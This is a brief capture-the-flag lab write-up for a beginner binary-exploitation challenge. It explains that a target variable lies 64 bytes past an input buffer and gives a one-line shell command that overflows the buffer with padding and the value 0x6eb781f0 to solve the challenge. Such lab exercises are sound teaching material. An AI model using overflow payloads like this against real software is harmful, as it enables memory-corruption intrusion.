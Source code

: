 # Variable Control (easy)

As told in the debug output, the win variable is 64 bytes from input buffer and has to be set to 0x6eb781f0

```shell
echo -e -n "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf0\x81\xb7\x6e" | /challenge/binary-exploitation-var-control-w
```
